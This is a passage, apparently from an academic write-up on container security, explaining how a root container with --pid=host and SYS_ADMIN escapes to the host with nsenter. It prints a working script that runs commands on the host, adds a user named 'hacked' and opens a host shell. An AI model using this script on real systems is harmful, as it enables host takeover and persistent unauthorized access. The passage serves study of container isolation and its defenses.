 To begin with, an attacker can attach to a target process only with a small subset of privileges and a way into host's pid namespace. In both of the use cases, we run a container as root using host's pid namespace by adding --pid=host flag and add capability SYS\_ADMIN.

\begin{itemize}
\item The \textbf{--pid=host} flag opens up host's pid namespace to attacker's container, in order to make it possible for it to see the processes running on host and choose one of them as target.
\item Nsenter requires \textbf{capability SYS\_ADMIN} as the least possible root privileges in order to work. That happens because any namespace changes require admin privileges and nsenter uses setns system call.
\end{itemize}

These are the common features used for the two use cases. The rest of the rules differ depending on the target process, so we will explain the rest in the corresponding examples.

\subsubsection{Breakout to host}
In this example, the attacker tries to execute some commands on host. These commands escalate from simple actions to privileged actions.
A debian image is used as a base for the docker containers and the attacker runs the following script to start the containers:

\begin{lstlisting}[style=shellscript, caption={run\_privileged\_actions.sh}]
#!/bin/sh

#Load profile to apparmor
sudo cp attacker_profile /etc/apparmor.d
sudo apparmor_parser -r -W /etc/apparmor.d/attacker_profile

#List contents of host's root directory
echo "====== ls / ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m ls /

#Touch a new file in host's root directory
echo "====== touch HelloFromTheOtherSide ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m touch HelloFromTheOtherSide

#Add a new user on host
echo "====== useradd hacked ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m /usr/sbin/useradd hacked

#Create a shell in host
echo "====== /bin/bash ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m /bin/bash 
\end{lstlisting}

